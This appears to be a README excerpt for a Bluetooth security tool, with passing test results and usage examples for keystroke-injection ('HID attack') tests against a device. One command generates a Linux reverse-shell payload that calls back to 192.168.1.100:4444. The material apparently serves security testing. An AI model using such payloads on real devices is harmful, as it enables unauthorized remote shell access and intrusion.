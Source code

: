 ## Test Results

```
============================== test session starts ==============================
collected 34 items

tests/test_blue_sec.py::TestConfig (3 tests) ........................... PASSED
tests/test_blue_sec.py::TestUtils (5 tests) ............................ PASSED
tests/test_blue_sec.py::TestScanner (3 tests) .......................... PASSED
tests/test_blue_sec.py::TestVulnerabilities (4 tests) .................. PASSED
tests/test_blue_sec.py::TestIntegration (1 test) ....................... PASSED
tests/test_blue_sec.py::TestHIDAttacks (18 tests) ...................... PASSED

============================== 34 passed in 5.76s ===============================
```

**100% Pass Rate** ✅

## Usage Examples

### Command Line

```bash
# Test with harmless payload
sudo python3 blue-sec.py hid-test AA:BB:CC:DD:EE:FF \
  --payload data/payloads/hid/rickroll_test.json

# Interactive mode
sudo python3 blue-sec.py hid-test AA:BB:CC:DD:EE:FF --interactive

# Generate custom payload
sudo python3 blue-sec.py generate-payload \
  --name "My Shell" \
  --type reverse_shell \
  --os linux \
  --ip 192.168.1.100 \
  --port 4444 \
  --output my_payload.json
```

### Programmatic

```python
from modules import HIDPayload, HIDKeyboardInjector
from modules.config import load_config

config = load_config()
injector = HIDKeyboardInjector(config.attack, config.security)

# Create payload
payload = HIDPayload(
    name="Test",
    description="Simple test",
    commands=["STRING Hello World!", "ENTER"]
)

# Execute
await injector.connect("AA:BB:CC:DD:EE:FF")
result = await injector.execute_payload(payload)
await injector.disconnect()
```
